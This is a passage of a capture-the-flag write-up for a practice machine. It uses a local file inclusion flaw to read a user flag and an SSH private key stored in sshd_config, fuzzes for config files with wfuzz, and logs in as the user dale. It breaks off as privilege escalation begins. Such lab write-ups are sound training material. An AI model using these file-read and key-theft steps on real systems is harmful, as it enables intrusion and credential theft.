 Nothing new here, we just see that there is no filtering. We can load any file and it will be executed as PHP code. I then decided to try loading the Apache logs to see if I could poison them with some commands to run. But it did not work. 

Knowing I could load any file that the web server could read, I used that to read the user flag in dale's home folder: http://dev.team.thm/script.php?page=/home/dale/user.txt

Going back to the message in the file found on the FPT server, it mention that dale's private key must be in a configuration file somewhere on the server. 

```
Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
```

I used wfuzz to try to find `.conf` file in the web root folder, dale's home folder and in `/etc/`.

```bash
wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 0 -t10 "http://dev.team.thm/script.php?page=FUZZ.conf"
wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 0 -t10 "http://dev.team.thm/script.php?page=/home/dale/FUZZ.conf"
wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 0 -t10 "http://dev.team.thm/script.php?page=/etc/FUZZ.conf"
```

This did not bring anything of notice. I spent a lot of time here going over files, trying to enumerate folders for file in .conf. It took me way too long to think about the sshd configuration file. 
view-source:http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

```
#Dale id\_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```

I took the key, removed the # from all the lines and saved it to a file. Then I changed the permissions and used it to connect to the server as Dale.

```bash
chmod 600 daleIdRsa 

ssh dale@target -i daleIdRsa 
Last login: Thu Mar 18 11:45:02 2021 from 10.13.3.36

dale@TEAM:~$ ls -l
total 4
-rw-rw-r-- 1 dale dale 17 Jan 15 21:30 user.txt
```

I was connected on the server. The user flag is there, but I already got it through the LFI vulnerability.

## Escalate to gyles
The first thing I always do when I get a shell, is to check if the user can run sudo. 
